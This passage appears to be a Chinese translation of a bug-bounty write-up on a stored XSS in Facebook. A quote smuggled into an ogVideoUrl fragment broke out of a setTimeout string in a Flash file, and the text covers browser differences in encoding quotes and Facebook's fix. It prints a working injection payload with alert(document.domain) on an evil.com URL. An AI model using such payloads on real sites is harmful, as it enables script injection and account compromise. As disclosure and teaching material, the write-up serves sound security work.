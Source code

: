 然后我尝试了Chrome和

```
absolutizeUrl('http://evil.com/video.flv#"payload')
```

返回：

```
http://evil.com/video.flv#"payload
```

和 o / YEAH !!!!!

现在Flash发送

```
setTimeout("log(\"http://evil.com/video.flv?\"payload\")", 0);
```

到Facebook的JavaScript和哪些将导致

```
log("http://evil.com/video.flv?"[payload]")

```

所以如果ogVideoUrl设置为

```
http://evil.com/video.flv#"+alert(document.domain+" XSSed!")+"
```

那么Facebook将执行

```
log("http://evil.com/video.flv?"+alert(document.domain+" XSSed!")+"")
```

并会显示一个不错的小警告框，说“facebook.com XSSed！” 🙂

> 这是由于浏览器解析URL时，不同的浏览器在特殊字符编码上有所不同：
<ul>
- Firefox将对URL中出现的任何双引号(“)进行URL编码
- Chrome浏览器（最高版本为64）将除了URL 的hash部分（=fragment
- ）外的双引号(“)进行URL编码。（请注意：在Chrome的最新版本65中，此行为已更改，现在Chrome的行为与Firefox相同，在hash中的双引号（”）也会进行编码）
- IE和Edge将不会URL编码在hash部分或者URL 的搜索部分（=query）中的双引号
- Safari将不会URL编码在hash部分的双引号(“)
</ul>
正如你所看到的让浏览器决定如何在JavaScript代码中的URL中进行特殊字符编码并不是很好！

我立即将此漏洞报告给Facebook，他们在第二天回复并告诉我他们修改了Flash文件，以便它不再使用setTimeout，Flash现在会发送

```
log("http://evil.com/video.flv?\"payload")
```

正如你所看到的**“**正确地转义到**”**，所里这里不再有XSS。



## 2.无Flash存储XSS
